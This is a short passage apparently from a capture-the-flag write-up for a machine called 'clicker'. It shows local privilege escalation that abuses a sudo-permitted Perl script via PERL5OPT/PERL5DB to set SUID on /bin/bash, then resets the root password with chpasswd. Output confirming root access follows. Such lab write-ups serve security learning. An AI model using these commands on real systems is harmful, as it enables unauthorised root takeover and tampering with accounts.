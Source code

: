 There script are using perl . The vulnerability is `perl_startup` also we can execute this script with with root privileges , We can using perl_startup to execute command with root access

### Perl_startup

[Exploit-DB : Exim — ‘perl_startup’ Local Privilege Escalation](https://www.exploit-db.com/exploits/39702)

`sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh`

`bash -p`

```
id
uid=1000(jack) gid=1000(jack) euid=0(root) groups=1000(jack),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)
```

`echo 'root:123' | chpasswd --crypt-method SHA512`
`su root`
- password:123

```
root@clicker:/home/jack# id
uid=0(root) gid=0(root) groups=0(root)
```
